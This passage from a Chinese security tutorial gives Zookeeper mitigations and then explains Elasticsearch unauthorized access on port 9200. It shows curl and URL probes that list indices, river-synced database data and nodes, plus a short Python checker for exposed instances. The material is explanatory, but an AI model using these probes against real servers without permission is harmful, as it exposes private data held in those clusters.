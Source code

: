 ## 3.防范措施

* 禁止把Zookeeper直接暴露在公网
* 添加访问控制，根据情况选择对应方式（认证用户，用户名密码，指定IP）



---

# 0×05 Elasticsearch未授权访问

ElasticSearch 是一款Java编写的企业级搜索服务，启动此服务默认会开放HTTP-9200端口，可被非法操作数据。

## 1.熟悉的响应 You Know, for Search

```
$ curl http://127.0.0.1:9200/_cat/indices/

{ "status" : 200, "name" : "Flake", "cluster_name" : "elasticsearch", "version" : {"number" : "1.4.1"," "build_hash" : "b88f43fc40b0bcd7f173xxxxx2e97816de80b19", "build_timestamp" : "2015-07-29T09:54:16Z", "build_snapshot" : false, "lucene_version" : "4.10.4"}, "tagline" : "You Know, for Search"}
```

## 2.漏洞测试

安装了river之后可以同步多种数据库数据（包括关系型的mysql、mongodb等）。  
[`http://localhost:9200/_cat/indices`](http://localhost:9200/_cat/indices) 里面的indices包含了\_river一般就是安装了river了。

[http://localhost:9200/\_plugin/head/](https://bbs.ichunqiu.com/thread-39749-1-1.html?from=beef) web管理界面  
[http://localhost:9200/\_cat/indices](https://bbs.ichunqiu.com/thread-39749-1-1.html?from=beef)  
[http://localhost:9200/\_river/\_search](https://bbs.ichunqiu.com/thread-39749-1-1.html?from=beef) 查看数据库敏感信息  
[http://localhost:9200/\_nodes](https://bbs.ichunqiu.com/thread-39749-1-1.html?from=beef) 查看节点数据

```
#! /usr/bin/env python
# _*_  coding:utf-8 _*_

import requests
def Elasticsearch_check(ip, port=9200, timeout=5):
    try:
    　　url = "http://"+ip+":"+str(port)+"/_cat"
    　　response = requests.get(url) 
    except:
    　　pass
    if "/_cat/master" in response.content:
    　　print '[+] Elasticsearch Unauthorized: ' +ip+':'+str(port)

if __name__ == '__main__':
    Elasticsearch_check("127.0.0.1")
```
